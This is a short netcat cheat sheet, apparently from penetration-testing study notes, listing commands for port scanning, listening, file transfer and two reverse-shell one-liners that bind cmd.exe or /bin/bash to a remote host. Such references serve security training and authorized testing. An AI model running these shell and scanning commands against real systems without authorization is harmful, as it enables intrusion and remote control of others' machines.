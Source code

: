## Netcat

#### Useful Links

[Linux Reverse Shells](https://www.lanmaster53.com/2011/05/27/7-linux-shells-using-built-in-tools/)

#### Quick Scans

###### Really fast scanner with 1 timeout value
`netcat -v -z -n -w 1 10.37.129.4 1-1023`

#### Read and write TCP and UDP Packets

##### Connect to a POP3 mail server  
`nc -nv $ip 110`

##### Listen on TCP/UDP port  
`nc -nlvp 4444`

##### Connect to a netcat port  
`nc -nv $ip 4444`

##### Send a file using netcat  
`nc -nv $ip 4444 &lt; /usr/share/windows-binaries/wget.exe`

##### Receive a file using netcat  
`nc -nlvp 4444 &gt; incoming.exe`

##### Create a reverse shell with Ncat using cmd.exe on Windows  
`nc -nlvp 4444 -e cmd.exe`

##### Create a reverse shell with Ncat using bash on Linux  
`nc -nv $ip 4444 -e /bin/bash`
